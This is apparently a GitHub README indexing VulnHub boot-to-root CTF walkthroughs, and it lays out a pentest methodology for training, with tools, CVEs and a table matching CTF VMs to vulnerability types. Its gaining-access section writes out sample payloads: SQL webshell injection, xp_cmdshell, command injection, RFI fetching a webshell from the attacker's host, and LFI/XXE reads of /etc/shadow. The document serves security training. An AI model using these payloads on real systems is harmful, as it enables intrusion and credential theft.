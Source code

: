 # Boot to root CTFs

Walkthroughs and notes of 'boot to root' CTFs mostly from VulnHub that I did for fun. I like to use vulnerable VMs from VulnHub (in addition to the ones I create) to organize hands-on penetration testing training sessions for junior security auditors/consultants :-)


### >> Classic pentest methodology to do a Boot2root CTF <<

### Step 1 - Scanning and enumeration
```
   ➤ Network TCP/UDP port scans
   ➤ Service enumeration (HTTP,FTP,TFTP,SMB,NFS,SAMBA,SNMP,SMTP,..)
   ➤ User enumeration
   ➤ Vulnerability scans
   ➤ ...
```
##### ***Useful tools:*** [Nmap](https://nmap.org/) (network port scanner and (NSE) scripts), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing tool), [Nikto](https://www.kali.org/tools/nikto/) (Web vulnerability scanner), [Dirb](https://www.kali.org/tools/dirb/) & [Gobuster](https://github.com/OJ/gobuster)  (URL bruteforcers), [Kali various tools](https://www.kali.org/tools/), various scripts (source:Github/your owns).*
-------------------

### Step 2 - Gaining access
```
1. Exploiting security misconfiguration
   ➤ Anonymous access (e.g. FTP/TFTP/NFS/SMB, unprotected web admin console)
   ➤ Default and weak credentials (e.g. Web server, CMS, database, OS)
   ➤ Web server misconfiguration (e.g. Webdav + HTTP PUT method allowed > upload a Webshell)
   ➤ Clear-text passwords stored in 'public' website pages, configuration files, log files
   ➤ ...
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Web server            (e.g. Apache Struts RCE: CVE-2017-12611/CVE-2017-9805/CVE-2017-9791, JBoss Java Deserialization RCE)
   ➤ Bash & web server CGI (e.g. Shellshock RCE CVE-2014-6271/CVE-2014-7169)
   ➤ Web CMS               (e.g. Drupalgeddon2 RCE CVE-2018-7600)
   ➤ Web framework         (e.g. PHP CGI RCE CVE-2012-1823)
   ➤ FTP server            (e.g. ProFTPd 1.3.5 RCE CVE-2015-3306)
   ➤ Samba server          (e.g. SambaCry RCE CVE-2017-7494)
   ➤ Windows OS            (e.g. PrintNightmare/CVE-2021-1675, EternalBlue/MS17-010/CVE-2017-0143, MS14-068/CVE-2014-6324, MS08-067/CVE-2008-4250)
   ➤ ...
   
3. Exploiting Web application vulnerabilities
   ➤ SQLi - SQL injection                 (e.g. MysQL DB: SELECT webshell INTO DUMPFILE '/path/to/webshell.php'; MSSQL DB: exec master..xp_cmdshell 'windows command')
   ➤ Insecure upload function             (i.e. PHP/ASP/ASPX/JSP Webshell upload)
   ➤ OS command injection                 (e.g. https://target.com//stockStatus?ID=29|whoami)
   ➤ RFI - Remote File Include            (e.g. https://target.com/page?url=http://yourIP/webshell.php)
   ➤ LFI - Local File Include             (e.g. https://target.com/page?file=/../../../../etc/shadow)
   ➤ SSRF - Server Side Request Forgery   (e.g. https://target.com/page?url=http://127.0.0.1/phpmyadmin)
   ➤ XXE - XML external entity injection  (e.g. <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>]>)
   ➤ ...
```
##### ***Useful tools:*** various scripts, webshells, and reverse shells (source:Github/your owns), [Kali various tools](https://www.kali.org/tools/), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing), [Sqlmap](https://github.com/sqlmapproject/sqlmap) (automatic SQL injection & DB takeover tool), [kadimus](https://github.com/P0cL4bs/kadimus) (LFI exploit tool), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Impacket framework](https://github.com/SecureAuthCorp/impacket) & [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) (Windows environment pentesting tools), [Hydra](https://www.kali.org/tools/hydra/) / [thc-hydra](https://github.com/vanhauser-thc/thc-hydra) / [ncrack](https://nmap.org/ncrack/) (password bruteforce tools),  [DBvis/DbVisualizer](https://www.dbvis.com/download/) (universal database tool).
-------------------------------

### Step 3 - Post-exploitation and Privilege escalation to become "root" or "Local System"
```
1. Exploiting security misconfiguration
   ➤ Windows OS (e.g. weak service permissions, weak file permissions, weak registry permissions, weak passwords, password reuse, clear-text passwords stored in scripts, unattended install files, AlwaysInstallElevated trick..)
   ➤ Linux OS   (e.g. SUDO misconfiguration, SUID misconfiguration, CRON misconfiguration, weak file permissions, weak passwords, password reuse, clear-text passwords in scripts and .bash_history..)
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Linux local exploit   (e.g. DirtyPipe CVE-2022-0847, Dirtyc0w CVE-2016-5195, eBPF exploit CVE-2017-16995, Overlayfs exploit CVE-2015-1328)
   ➤ Windows local exploit (e.g. HOT/ROTTEN/JUICY POTATO exploits, MS16-032 Secondary Logon Handle Privesc)
   ➤ Exploit for any vulnerable service/software running with "Local System" or local administrator privilege
```
##### ***Useful tools:*** various scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) (Linux enumeration scripts), [LinPEAS & WinPEAS](https://github.com/carlospolop/PEASS-ng) (Linux & Windows enumeration scripts), [Linux Exploit suggester](https://github.com/mzet-/linux-exploit-suggester) / [Linux Exploit suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (scripts to assess Linux kernel security hardening and exposure on publicly known exploits), [PowerUp PowerShell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) & [SharpUP](https://github.com/GhostPack/SharpUp) (Windows privilege escalation tools), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), ...
------------------------------

### Step 4 - Pivoting techniques to attack a second VM (or docker containers) only reachable from the 1rst one (some CTFs have several VMs/docker containers :-))
```
1. Pivoting with SSH tunneling (e.g. dynamic port forward / socks5 proxy / use of proxychain)
2. Pivoting with Metasploit/Meterpreter (e.g. post/multi/manage/autoroute + socks5 proxy + use of proxychain; "portfwd add" rules)
3. Pivoting with RPIVOT (reverse socks4 proxy, it works like ssh dynamic port forwarding but in the opposite direction)
4. Pivoting with TCP tunnelling over HTTP via Webshells (e.g. Tunna webshell, reGeorg and neo-reGeorg client/webshell)
5. Pivoting with SOCAT / Ligolo / RDP / VNC / ...
6. ...
```
##### ***Useful tools:*** [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Rpivot](https://github.com/klsecservices/rpivot) / [SOCAT](http://www.dest-unreach.org/socat/) / [Ligolo](https://github.com/sysdream/ligolo) (reverse socks proxies for penetration tests), [Tunna](https://github.com/SECFORCE/Tunna) / [ReGeorg](https://github.com/kost/regeorg) / [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) (pivoting with TCP tunnelling over HTTP via Webshells), ...
---------------------------------

### Other - Mapping between a few boot2root VulnHub CTFs and common vulnerabilities/exploits

| Boot2root CTF | Anonymous access or Weak password | Insecure file upload function | Webshell | SQLi | LFI | RFI | XXE | OS cmd injection | XSS | Unpatched RCE flaw | Docker privesc | Info / Note | 
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| *Credit Card Scammers* | - | - | X | X | - | - | - | - | X | - | - | - |
| *Billu-b0x2* | - | - |- | - | - | - | - | - | - | X | - | Drupal CMS |
| *Bobby* | X | - | X | - | - | - | - | - | - | - | - | - |
| *CloudAV* | - | - | - | - | - | - | - | X | - | - | - | - |
| *DC:8* | - | - | X | X | - | - | - | - | - | - | - | Drupal CMS |
| *Vulnerable Docker:1* | X | - | X | - | - | - | - | - | - | - | X | WordPress CMS & Pivoting technique |
| *Freshly* | - | - | X | X | - | - | - | - | - | - | - | - |
| *Fristileaks.1.3* | - | X | X | - | - | - | - | - | - | - | - | - |
| *HackLab Vulnix* | X | - | - | - | - | - | - | - | - | - | - | - |
| *MinU:v2* | - | - | - | - | - | - | X | - | - | - | - |
| *Mr Robot* | X | - | X | - | - | - | - | - | - | - | - | WordPress CMS |
| *SafeHarbor:1* | - | - | - | X | X | X | - | - | - | X | X |Pivoting technique |
| *Scream* | X | - | X | - | - | - | - | - | - | X | - | - |
| *SickOS.1.1* | X | - | X | - | - | - | - | - | - | X | - | Pivoting technique |
| *SickOS.1.2* | - | - | X | - | - | - | - | - | - | - | - | - |
| *Stapler* | X | - | X | - | X | - | - | - | - | - | - | - |
| *Tr0ll1* | X | - | - | - | - | - | - | - | - | - | - | - |
| *Typhoon* | X | - | X | - | - | - | - | - | - | X | - | - |
| *VulnOSv2* | - | - | - | X | - | - | - | - | - | X | - | Drupal CMS |
| *WinterMute* | X | - | X | - | X | - | - | - | - | X | - | Pivoting technique |
